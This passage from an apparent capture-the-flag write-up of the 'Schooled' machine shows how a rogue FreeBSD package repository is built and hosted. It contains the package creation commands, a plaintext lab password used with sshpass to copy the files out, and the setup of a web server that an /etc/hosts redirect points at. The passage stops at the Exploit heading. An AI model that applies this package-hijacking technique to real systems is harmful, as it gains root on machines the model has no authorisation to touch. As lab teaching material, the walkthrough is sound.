 
Create the config file and `plist`:

    
    
    jamie@Schooled:/var/tmp/.0xdf $ mkdir -p usr/local/etc
    jamie@Schooled:/var/tmp/.0xdf $ echo "# nothing to see here" > usr/local/etc/0xdf.conf
    jamie@Schooled:/var/tmp/.0xdf $ echo "/usr/local/etc/0xdf.conf" > plist
    

Now I’ll create the package with `pkg create` which generates `0xdf-
root-1.0_5.txz`:

    
    
    jamie@Schooled:/var/tmp/.0xdf $ pkg create -m /var/tmp/.0xdf/ -r /var/tmp/.0xdf/ -p /var/tmp/.0xdf/plist -o .
    jamie@Schooled:/var/tmp/.0xdf $ ls
    +MANIFEST       +POST_INSTALL   0xdf-1.0_5.txz  plist           usr
    

#### Generate Repo Metadata

`pkg repo` will generate the repo metadata files:

    
    
    jamie@Schooled:/var/tmp/.0xdf $ pkg repo .
    Creating repository in .: 100%
    Packing files for repository: 100%
    jamie@Schooled:/var/tmp/.0xdf $ ls
    +MANIFEST       +POST_INSTALL   0xdf-1.0_5.txz  meta.conf       meta.txz        packagesite.txz plist           usr
    

### Host Package

I’m going to have Schooled update from my VM, so I need to get these files
back to my host, and put them into `/packages` on a webserver. I’ll use `scp`:

    
    
    oxdf@parrot$ sshpass -p '!QAZ2wsx' scp jamie@10.10.10.234:/var/tmp/.0xdf/packagesite.txz packages
    oxdf@parrot$ sshpass -p '!QAZ2wsx' scp jamie@10.10.10.234:/var/tmp/.0xdf/meta.* packages
    oxdf@parrot$ sshpass -p '!QAZ2wsx' scp jamie@10.10.10.234:/var/tmp/.0xdf/0xdf-1.0_5.txz packages
    oxdf@parrot$ find packages/
    packages/
    packages/meta.txz
    packages/packagesite.txz
    packages/meta.conf
    packages/0xdf-1.0_5.txz
    

In that directory, `python3 -m http.server 80` will host the files.

### Exploit

I’ll re-update `/etc/hosts` with my IP (there’s a cron resetting it
frequently), and run `pkg update`:

    